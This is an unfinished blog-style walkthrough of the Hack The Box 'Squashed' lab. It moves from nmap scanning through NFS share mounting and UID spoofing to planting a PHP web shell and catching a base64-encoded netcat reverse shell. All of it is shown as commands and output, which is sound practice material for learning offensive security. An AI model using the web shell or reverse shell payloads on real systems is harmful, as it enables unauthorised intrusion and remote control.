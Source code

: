 ```yaml
---
title: "HTB Squashed"
date: 2022-12-12T18:22:03-05:00
draft: false
---
```


First we will start with an nmap scan.

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap/squashed.nmap $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-12 18:20 EST
Nmap scan report for 10.129.40.85
Host is up (0.041s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42597/tcp   mountd
|   100005  1,2,3      49332/udp6  mountd
|   100005  1,2,3      57441/tcp6  mountd
|   100005  1,2,3      58098/udp   mountd
|   100021  1,3,4      34613/udp6  nlockmgr
|   100021  1,3,4      34643/tcp   nlockmgr
|   100021  1,3,4      43627/tcp6  nlockmgr
|   100021  1,3,4      58073/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34643/tcp open  nlockmgr 1-4 (RPC #100021)
42597/tcp open  mountd   1-3 (RPC #100005)
43229/tcp open  mountd   1-3 (RPC #100005)
47523/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.17 seconds
```

A lot of information is returned from our nmap scan, and after checking out port 80 the website is static and not very interesting, but port 2049 looks intriguing. It is a NFS share we can list them using `showmount`.

```bash
showmount -e $IP

Export list for $IP:
/home/ross    *
/var/www/html *
```

Awesome we can see a users home folder & the web root directory!
Now lets try and mount them, and see what information we can gather.

```bash
sudo mount -t nfs $IP:/home/ross /mnt/squashed -o nolock

cd /mnt/squashed && ls -la

drwxr-xr-x 14 1001 1001 4096 Dec 12 18:19 .
drwxr-xr-x  3 root root 4096 Dec 12 18:35 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Dec 12 18:19 .Xauthority
-rw-------  1 1001 1001 2475 Dec 12 18:19 .xsession-errors
-rw-------  1 1001 1001 2475 Oct 31 06:13 .xsession-errors.old

```

Great, now if we run the `tree` command we can see all the files in the directories.

```bash
tree
.
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

8 directories, 1 file
```

interesting this *Passwords.kdbx* file looks interesting!

This is a KeePass file used to store passwords, but it is encrypted, and trying to use `keepass2john` fails... oh well lets move forward.

lets take a look at the www share. we can mount it using the same command as before, but replacing the directory

Once in the share it seems we arent able to access anything, but it show everything being owned by the user id *2017* and group *www-data*

```bash
drwxr-xr--  5 2017 www-data  4096 Dec 12 19:00 www
```

we can abuse this and gain access to the contents of the folder by creating a user and changing their user id

```bash
sudo useradd pwnd

sudo usermod -u 2017 pwnd

sudo su pwnd -c bash
```

Now lets see if we can access the /var/www/html file share.

```bash
pwnd@kali:/mnt$ cd www
pwnd@kali:/mnt/www$ ls -la
total 56
drwxr-xr-- 5 pwnd www-data  4096 Dec 12 19:10 .
drwxr-xr-x 4 root root      4096 Dec 12 18:53 ..
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 css
-rw-r--r-- 1 pwnd www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 images
-rw-r----- 1 pwnd www-data 32532 Dec 12 19:10 index.html
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 js
pwnd@kali:/mnt/www$
```

Awesome! now that we have access to the web root lets put a simple php shell on the site!

```bash
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > pwnd.php
```

Navigating to the website we can see that the shell worked!

{{< image src="/static/Pasted image 20221212181527.png" alt="Initial WebShell" position="center" style="border-radius: 8px;" >}}

Now that we have command execution, lets go for a reverse shell.

I will use the mkfifo shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/
and base64 encode it.

After base64 encoding the reverse shell we should have a string that looks like this:

`bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK`

Now lets see if we catch a shell.

Before we run our reverse shell we must start a listener

```bash
nc -lvnp $port
listening on [any] $port ...
```

navigating back to the site, and using entering our command:

`/pwnd.php?cmd=echo bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK | base64 -d | bash`

Looking back at our listener you should see this:

{{< image src="/static/Pasted image 20221212183603.png" alt="RevShell" position="center" style="border-radius: 8px;" >}}

Cool! now we have a shell on the box!

*you can upgrade your shell using* 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

***I will have to finish this post later***
